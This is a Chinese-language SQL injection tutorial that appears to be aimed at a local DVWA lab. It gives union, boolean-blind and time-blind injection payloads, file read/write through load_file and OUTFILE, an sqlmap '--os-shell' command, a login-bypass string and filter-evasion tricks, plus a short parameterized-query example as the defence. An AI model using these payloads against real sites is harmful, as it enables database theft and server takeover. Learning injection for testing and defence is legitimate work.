 # python-network-programming
### SQL注入
#### 开启mysql日志功能
```text
mysql> show variables like 'general_log%'
    -> ;
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | OFF                                         |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)

mysql> set global general_log = 'ON';
Query OK, 0 rows affected (0.02 sec)

mysql> show variables like 'general_log%';
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | ON                                          |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)
```
#### 查看mysql日志
windows下使用baretail进行查看 [baretail下载地址](http://www.baremetalsoft.com/baretail/index.php)
#### sql注入原理
可以通过网站存在的查询语句进行构造，为此开发者对其伤透了脑筋，漏洞不光是查询，可能还存在与API、隐藏链接、http头数据、写入数据等。需要对数据包的结构和传递函数比较了解，建议学习的时候把数据库的日志打开，就可以查看到传递到数据库的语句是什么样子的了。 需要记住的information_schema数据库的SCHEMATA、TABLES、COLUMNS。 SCHEMATA表中存放所有数据库的名，字段名为SCHEMA_NAME。 关键函数database() 当前数据库名、version() 当前mysql版本、user()当前mysql用户.
#### 漏洞危害
高危漏洞,可以获取敏感信息，修改信息，脱裤，上传 webshell,执行命令。
#### mysql
默认库information_schema和其中的表SCHEMATA、TABLES和COLUMNS SCHEMATA 存储的是用户创建所有数据库的库名记录数据库库名的字段为SCHEMA_NAME  
select schema_name from information_schema.schemata 查询全部数据库  
select table_schema,table_name from information_schema.tables 查询全部数据库和表的对应  
select table_name,column_name from information_schema.columns; 查询全表对应的字段
#### asp站点万能密码
'or'='or'
#### union注入
1、首先判断是否有注入点?id=1' and 1=1#和?id=1' and 1=2，测试两个返回是否相同，如不同则含有注入漏洞    
2、判断字段数量 1' order by 1#，当返回错误，前一个数值即为最大字段量。  
3、得到字段个数后，进行union注入,id=1' union select 1,2# 如果都显示，说明两个字段都可以进行替换  
4、判断当前所使用的数据库1' union select version(),database()#  
5、查找需要的表 ?id=1' union select table_schema,table_name from information_schema.tables#，把所有数据库的库和表的对应显示出来。  
6、查找表对应的字段?id=1' union select table_name,column_name from information_schema.columns#  
7、查最终数据 ?id=1' union select user,password from dvwa.users#  
8、判断数据库版本1' and substring(@@version,1,1)=4# 如果返回正常结果，说明数据库版本是4.  
9、查询当前注入点的数据库用户union select user(),2#
```text
ID: 1' union select user(),2#
First name: admin
Surname: admin
ID: 1' union select user(),2#
First name: root@localhost
Surname: 2
```
10、读文件，写文件，没有配置–secure-file-priv
```text
show variables like '%secure%';
打开mysql的配置文件my.ini 然后在末尾加上secure-file-priv="" 重启就行了
```
```text
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,load_file('c:\\test.txt')#'
select '123' into OUTFILE 'c:/123.txt';
```
11、使用sqlmap写入shell
```text
C:\soft\sqlmap>python sqlmap.py -u "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id" --cookie "security=low; PHPSESSID=1n3rvc90rbafotfo5r0tmn80l1" -T users
 -C "user,password" --os-shell
```
***
12、oracle数据库注入
```text
oracle数据库进行注入测试时必须写from一个表
union select 1,2,3,4,5 from dual;
由于使用union查询oracle数据库时必须保证前后两个字段类型相同，为了不报错，可以使用Null占位，则为union select null,null,null,null,null from dual;
dual是oracle默认创建的表，由system账号创建
union select 的返回结果为排序去重
union all select 直接输出查询结果，不会排序去重
```
13、为什么参数化查询可以防止 sql 注入
```python
import pymysql

#连接数据库
connect = pymysql.connect(
    host='192.168.1.9',
    user='root',
    password='root',
    db='dvwa',
    port=3306,
    charset='utf8'
)

#正常查询
name = 'admin'
#注入查询
# name = 'admin\''+ ' or 1=1#'
with connect.cursor() as cursor:
    #危险查询方法，会造成SQL注入
    # query = "select * from users where user='%s'"%(name)
    #安全查询方法，使用execute的参数传递name值
    query = "select * from users where user=%s"
    count = cursor.execute(query,args=name)
    print("影响行数:",str(count))
    for row in cursor.fetchall():
        print(row)
    connect.commit()
#使用预编译的SQL语句，SQL语句的语义不会改变。
#在PHP中使用?进行占位
```
14、基于布尔值盲注
```text
1、首先判断数据库名称长度
select user,password from users where user_id = 1 and (length(database()))=4;
2、获取数据库名称
select user,password from users where user_id = '1' and mid((select schema_name from information_schema.SCHEMATA limit 1,1),1,4)='dvwa';
3、获取表的数量
select user,password from users where user_id = '1' and (select count(table_name) from information_schema.tables where table_schema=database())=2;
4、获取表名长度
select user,password from users where user_id = '1' and (select length(table_name) from information_schema.tables where TABLE_SCHEMA=database() limit 1,1)=5;
5、获取表名
select user,password from users where user_id = '1' and mid((select table_name from information_schema.`TABLES` where TABLE_SCHEMA = database() limit 1,1),1,5)='users';
6、获取列名个数
select user,password from users where user_id = '1' and (select count(column_name) from information_schema.columns where table_name='users')=8;
7、获取列名长度
user_id
select user,password from users where user_id = '1' and (select length(column_name) from information_schema.columns where table_name='users' limit 0,1)=7;
8、获取列名
select user,password from users where user_id = '1' and mid((select column_name from information_schema.`COLUMNS` where table_name = 'users' limit 3,1),1,4)='user';
9、获取数据长度
select user,password from users where user_id = '1' and (select count(user) from users limit 0,1)=5;
10、获取用户名数据
select user,password from users where user_id = '1' and mid((select user from dvwa.users limit 0,1),1,5)='admin';
```
15、基于时间盲注
```text
select user,password from users where user_id = 1 and if((length(database()))=4,sleep(5),0);
当条件成立时sleep5秒，否则直接执行
```
16、sql注入绕过
```text
1、空格被过滤：可以使用注释绕过，或使用括号绕过
select user,password from users where user_id=1/**/union/**/select/**/database(),user();
select(user),(password)from(users)where(user_id=1)union select(database()),(user());
2、引号被过滤：使用16进制绕过
select user,password from users where user=0x61646D696E union select database(),user();
3、逗号被过滤
limit的逗号被过滤使用offset
mid的逗号被过滤使用from for
select user,password from users where user_id = '1' and mid((select schema_name from information_schema.SCHEMATA limit 1 offset 1) from 1 for 4)='dvwa';

select user,password from users where user_id = 1 union select 1,2可以替换为:
select user,password from users where user_id=1 union select * from (select 1)a join (select 2)b;
4、绕过关键字使用大小写关键字
select user,password from users where user_id=1 UNiON SeLeCt 1,2;
参考文章:https://www.admincms.top/blogzone/2019-08-14/160.html
```

***
不定期分享一些python开发,逆向破解、渗透测试相关文章,欢迎大家关注.  
![微信公众号](../gongzhonghao.jpg)
***
BUG:dazhuang_python@sina.com